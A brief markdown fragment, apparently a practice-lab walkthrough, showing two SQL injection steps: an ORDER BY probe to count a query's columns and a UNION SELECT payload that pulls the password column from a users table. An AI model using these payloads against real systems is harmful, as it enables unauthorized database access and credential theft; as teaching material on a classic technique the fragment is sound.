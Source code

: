 ## Find the number of fields being retrieved 

`
1' ORDER BY N#
`

Replace N by 1,2,3

## Do UNION attacks to get the values
`
1' UNION SELECT NULL,password FROM users#
`